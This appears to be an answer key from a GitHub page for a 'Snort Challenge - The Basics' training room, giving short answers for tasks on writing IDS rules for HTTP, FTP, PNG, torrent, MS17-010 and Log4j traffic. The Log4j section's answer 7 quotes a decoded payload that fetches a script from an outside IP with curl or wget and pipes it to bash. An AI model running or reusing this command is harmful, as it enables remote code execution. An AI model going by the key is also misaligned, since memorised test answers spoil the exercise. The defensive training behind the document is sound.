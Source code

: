 <h1> Snort Challenge - The Basics </h1>

<h3>  Task 2  Writing IDS Rules (HTTP) </h3>
  ANSWER 1:	328 <br/>
  ANSWER 2: 145.254.160.237 <br/>
  ANSWER 3: 0x38AFFFF3 <br/>
  ANSWER 4: 0x38AFFFF3 <br/>
  ANSWER 5: 128 <br/>
  ANSWER 6: 145.254.160.237 <br/>
  ANSWER 7: 3372 <br/>

<h3> Task 3  Writing IDS Rules (FTP) </h3>
  ANSWER 1:	614 <br/>
  ANSWER 2: Microsoft FTP Service <br/>
  ANSWER 3: 41 <br/>
  ANSWER 4: 1 <br/>
  ANSWER 5: 42 <br/>
  ANSWER 6: 7 <br/>

<h3> Task 4  Writing IDS Rules (PNG) </h3>
  ANSWER 1:	Adobe ImageReady <br/>
  ANSWER 2: GIF89a <br/>

<h3> Task 5  Writing IDS Rules (Torrent Metafile) </h3>
  ANSWER 1:	2 <br/>
  ANSWER 2: bittorrent <br/>
  ANSWER 3: application/x-bittorrent <br/>
  ANSWER 4: tracker2.torrentbox.com <br/>

<h3> Task 6  Troubleshooting Rule Syntax Errors </h3>
  ANSWER 1:	16 <br/>
  ANSWER 2: 68 <br/>
  ANSWER 3: 87 <br/>
  ANSWER 4: 90 <br/>
  ANSWER 5: 155 <br/>
  ANSWER 6: 2 <br/>
  ANSWER 7: msg <br/>

<h3> Task 7  Using External Rules (MS17-010) </h3>
  ANSWER 1:	25154 <br/>
  ANSWER 2: 12 <br/>
  ANSWER 3: \\192.168.116.138\IPC$ <br/>
  ANSWER 4: 9.3<br/>
  
  <h3> Task 8  Using External Rules (Log4j) </h3>
  ANSWER 1:	26 <br/>
  ANSWER 2: 4 <br/>
  ANSWER 3: 210037 <br/>
  ANSWER 4: 41 <br/>
  ANSWER 5: Base64 <br/>
  ANSWER 6: 62808  <br/>
  ANSWER 7: (curl -s 45.155.205.233:5874/162.0.228.253:80||wget -q -O- 45.155.205.233:5874/162.0.228.253:80)|bash <br/>
  ANSWER 8: 9.3 <br/>
  
  
